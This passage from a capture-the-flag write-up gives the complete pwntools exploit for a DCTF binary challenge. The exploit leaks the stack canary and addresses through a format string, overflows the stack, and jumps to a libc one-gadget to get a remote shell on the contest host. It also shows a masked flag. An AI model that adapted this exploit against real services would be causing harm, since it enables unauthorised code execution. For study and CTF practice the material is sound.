 ```
$ ls
flag
pwn
readme
$ cat flag
DCTF{****************************************************************}
```

## Code

The final code that I used in the exploit:

```python
#!/usr/bin/env python2

from pwn import *

context(arch='amd64')

p = remote('206.81.24.129', 1339)

p.recvline_contains('name?')
p.sendline('%15$p %21$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
base = int(leaks[1], 16) - 0xb6d

def jump_to(destination):
    payload = 'a' * 0x88
    payload += p64(canary)
    payload += p64(1337)         # rbp
    payload += p64(destination)  # rip
    p.sendline(payload)

def leak(address):
    p.recvline_contains('name?')
    p.sendline('%7$s    ' + p64(address))
    line = p.recvline()
    leak = line.split()[2]
    leak = u64(leak + '\00' * (8 - len(leak)))
    return leak

jump_to(base + 0xb6d)
setvbuf = leak(base + 0x202068)
log.info('setvbuf: ' + hex(setvbuf))

jump_to(base + 0xb6d)
gets = leak(base + 0x202060)
log.info('gets: ' + hex(gets))

SETVBUF_OFFSET = 0x6fe70
TARGET_OFFSET = 0x45216
libc = setvbuf - SETVBUF_OFFSET
target = libc + TARGET_OFFSET

jump_to(target)
p.interactive()
```